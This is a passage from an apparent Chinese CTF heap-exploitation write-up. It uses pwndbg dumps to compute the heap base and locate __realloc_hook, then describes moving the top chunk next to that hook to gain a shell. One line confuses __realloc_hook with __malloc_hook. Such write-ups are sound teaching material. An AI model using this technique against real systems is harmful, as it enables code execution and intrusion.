 ```shell
  bk_nextsize = 0x0
}
0x5555557570f0 FASTBIN {
  prev_size = 0, 
  size = 81, 
  fd = 0x0, 
  bk = 0x0, 
  fd_nextsize = 0x0, 
  bk_nextsize = 0x0
}
0x555555757140 PREV_INUSE {
  prev_size = 0, 
  size = 134849, 
  fd = 0x0, 
  bk = 0x0, 
  fd_nextsize = 0x0, 
  bk_nextsize = 0x0
}
```

可以看到，第二个块地址为`0x555555757050`,而第2个块大小为0x50,所以可以得到heap的基地址`0x555555757000 = 0x555555757050 - 0x50`。

##修改top_chunk为 __realloc_hook附近的地址

**__realloc_hook是一个 libc 上的函数指针，调用 malloc 时如果该指针不为空则执行它指向的函数，可以通过写 __realloc_hook 来 getshell。 **

```c
void *(*hook) (size_t, const void *) = atomic_forced_read (__malloc_hook);
if (__builtin_expect (hook != NULL, 0))
	return (*hook)(bytes, RETURN_ADDRESS (0));
```

首先判断__realloc_hook的地址:

```shell
pwndbg> p __realloc_hook
$1 = (void *(*)(void *, size_t, const void *)) 0x7ffff7a92a00 <realloc_hook_ini>
pwndbg> p &__realloc_hook
$3 = (void *(**)(void *, size_t, const void *)) 0x7ffff7dd1b08 <__realloc_hook>
```

__realloc_hook的地址为`0x7ffff7dd1b08`。

内存信息：

```shell
pwndbg> x/20xg 0x7ffff7dd1ae8
0x7ffff7dd1ae8 <_IO_wide_data_0+296>:	0x0000000000000000	0x00007ffff7dd0260
0x7ffff7dd1af8:	0x0000000000000000	0x00007ffff7a92e20
0x7ffff7dd1b08 <__realloc_hook>:	0x00007ffff7a92a00	0x0000000000000000 |    <-- 目标地址
0x7ffff7dd1b18:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b28 <main_arena+8>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b38 <main_arena+24>:	0x0000000000000000	0x00005555557570a0
0x7ffff7dd1b48 <main_arena+40>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b58 <main_arena+56>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b68 <main_arena+72>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b78 <main_arena+88>:	0x0000555555757140	0x00005555557570a0     |   <-   top_chunk 地址 
```
